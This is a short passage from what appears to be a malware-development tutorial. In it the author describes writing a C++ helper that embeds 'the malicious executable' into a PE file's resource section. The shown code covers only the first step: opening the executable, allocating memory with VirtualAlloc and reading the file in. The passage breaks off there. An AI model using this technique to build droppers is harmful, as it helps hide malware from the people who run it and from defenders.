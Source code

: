 
To add the malicious executable into the resource section of a PE file, I write a simple program to help me with this.


First, we do the basic stuff to open the malicious executable, allocate virtual memory, and write the entire content into that chunk of memory.


``` cpp
HANDLE hResourceFile = CreateFileA( // file handle for the malicious executable
		resourceFile,
		GENERIC_READ,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

if (hResourceFile == INVALID_HANDLE_VALUE) {
    printf("CreateFileA fails.\n");
    return -1;
}

DWORD dwResourceSize = GetFileSize(hResourceFile, NULL); // get size
if (dwResourceSize <= 0) {
    CloseHandle(hResourceFile);
    printf("GetFileSize fails.\n");
    return -1;
}

LPVOID lpResourceBuffer = VirtualAlloc( // alocate size amount of bytes
    NULL,
    dwResourceSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_READWRITE
);

if (!lpResourceBuffer) {
    CloseHandle(hResourceFile);
    printf("VirtualAlloc fails.\n");
    return -1;
}

if (!ReadFile( // read file into virtual memory
    hResourceFile,
    lpResourceBuffer,
    dwResourceSize,
    NULL,
    NULL
)) {
    VirtualFree(lpResourceBuffer, dwResourceSize, MEM_FREE);
    CloseHandle(hResourceFile);
    printf("ReadFile fails.\n");
    return -1;
}
```
